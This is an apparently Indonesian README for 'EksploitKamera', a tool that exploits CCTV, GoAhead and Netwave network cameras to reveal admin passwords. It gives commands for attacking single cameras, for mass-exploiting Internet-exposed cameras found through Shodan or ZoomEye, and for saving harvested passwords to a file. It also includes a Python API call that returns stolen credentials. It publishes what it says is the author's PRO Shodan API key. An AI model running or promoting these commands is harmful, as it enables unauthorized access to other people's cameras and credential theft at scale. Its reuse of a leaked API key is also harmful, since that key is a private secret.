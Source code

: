 [gambar](https://github.com/Yoga913/EksploitKamera/blob/main/gambar.jpg)

EksploitKamera adalah alat eksploitasi kamera yang memungkinkan pengungkapan kata sandi admin kamera jaringan.

## Fitur

* Mengeksploitasi kerentanan pada sebagian besar model kamera populer seperti `CCTV`, `GoAhead`, dan `Netwave`.
* Dioptimalkan untuk mengeksploitasi beberapa kamera sekaligus dari daftar dengan threading diaktifkan.
* Penggunaan CLI dan API yang sederhana.

## Instalasi

```shell
pip3 install git+https://github.com/EntySec/CamOver
```

## Penggunaan dasar

Untuk menggunakan EksploitKamera, ketik saja `eksploitkamera` di terminal Anda.

```
penggunaan: eksploitkamera [-h] [-t] [-o OUTPUT] [-i INPUT] [-a ADDRESS] [--shodan SHODAN]

[--zoomeye ZOOMEYE] [-p PAGES]

eksploitkamera adalah alat eksploitasi kamera yang memungkinkan pengungkapan kata sandi admin kamera jaringan.

argumen opsional:
-h, --help tampilkan pesan bantuan ini dan keluar
-t, --threads Gunakan thread untuk pekerjaan tercepat.
-o OUTPUT, --output OUTPUT
Hasil Untuk file.
-i INPUT, --input INPUT
File alamat.
-a ADDRESS, --address ADDRESS
Satu alamat. --shodan SHODAN Kunci API Shodan untuk mengeksploitasi perangkat melalui Internet.
--zoomeye ZOOMEYE Kunci API ZoomEye untuk mengeksploitasi perangkat melalui Internet.
-p PAGES, --pages PAGES
Jumlah halaman yang ingin Anda dapatkan dari ZoomEye.
```

### Contoh 

**Mengeksploitasi satu kamera**

```shell
eksploitkamera -a 192.168.99.100
```

**Mengeksploitasi kamera dari Internet**

Menggunakan mesin pencari Shodan untuk mengeksploitasi kamera melalui Internet, Menggunakannya dengan `-t` untuk eksploitasi cepat.

```shell
eksploitkamera -t --shodan PSKINdQe1GyxGgecYz2191H2JoS9qvgD
```

**CATATAN:** ​​Mengingat kunci API Shodan (`PSKINdQe1GyxGgecYz2191H2JoS9qvgD`) adalah kunci API PRO saya, Anda dapat menggunakan kunci ini atau kunci Anda sendiri,
bebas menggunakan semua sumber daya kami secara gratis :)

**Mengeksploitasi kamera dari file input**

Menggunakan basis data kamera yang dibuka dengan `-t` untuk eksploitasi cepat.

```shell
eksploitkamera -t -i camera.txt -o passwords.txt
```

**CATATAN:** ​​Ini akan mengeksploitasi semua kamera dalam daftar `cameras.txt` berdasarkan alamatnya dan menyimpan semua kata sandi yang diperoleh
ke `passwords.txt`.

## Penggunaan API

EksploitKamera juga memiliki API Python mereka sendiri yang dapat dipanggil dengan mengimpor EksploitKamera ke kode Anda.

```python
from eksploitkamera import EksploitKamera
```

### Fungsi dasar

Ada semua fungsi dasar EksploitKamera yang dapat digunakan untuk mengeksploitasi kamera tertentu.

* `exploit(address)` - Mengeksploitasi satu kamera dengan alamat yang diberikan.

### Contoh

**Mengeksploitasi satu kamera**

```python
from eksploitkamera import EksploitKamera

eksploitkamera = EksploitKamera()
creds = eksploitkamera.exploit('192.168.99.100')

print(creds)
```
